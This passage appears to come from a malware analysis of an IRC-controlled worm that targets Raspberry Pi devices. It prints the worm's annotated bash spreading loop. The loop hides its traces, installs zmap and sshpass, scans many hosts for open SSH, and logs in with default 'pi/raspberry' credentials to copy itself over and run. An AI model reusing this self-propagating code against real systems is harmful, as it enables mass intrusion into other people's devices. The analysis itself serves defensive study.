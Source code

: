 The main execution loop has several interesting elements. Essentially, the attacker establishes communication with the victim host via IRC and signs their attacks to ensure no other malicious actor can take advantage of the exploit. Very creative — this is likely also why no commands I sent to victim hosts in `#biret` responded to requests.

```bash
...
chmod +x /tmp/$BOT # Makes script executable so that it can run on other systems
nohup /tmp/$BOT 2>&1 > /tmp/bot.log & # Ensures that the script is not stopped upon user logoff or any other hang events

# Clean traces
rm /tmp/nohup.log -rf
rm -rf nohup.out
sleep 3
rm -rf /tmp/$BOT

# Generate a new name
NAME=`mktemp -u 'XXXXXXXX'`

date > /tmp/.s

# Install:
# - ZMap: a network scanner
# - sshpass: a utility that allows for keyboard-interactive SSH sessions in non-interactive (automated) sessions
apt-get update -y --force-yes
apt-get install zmap sshpass -y --force-yes

# SPREAD LOOP
while [ true ]; do
  FILE=`mktemp`

  # Collect all IPs with port 22 open
  zmap -p 22 -o $FILE -n 100000
  killall ssh scp
  for IP in `cat $FILE`

  # For each IP with 22 open, attempt to log in awith the credential set pi:praspberry
  # If a connection succeeds:
  # SPREAD AND EXECUTE THE SCRIPT
  do
    sshpass -praspberry scp -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no $MYSELF pi@$IP:/tmp/$NAME  && echo $IP >> /opt/.r && sshpass -praspberry ssh pi@$IP -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no "cd /tmp && chmod +x $NAME && bash -c ./$NAME" &
    sshpass -praspberryraspberry993311 scp -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no $MYSELF pi@$IP:/tmp/$NAME  && echo $IP >> /opt/.r && sshpass -praspberryraspberry993311 ssh pi@$IP -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no "cd /tmp && chmod +x $NAME && bash -c ./$NAME" &
  done
  rm -rf $FILE // Clean traces
  sleep 10
done

fi
```
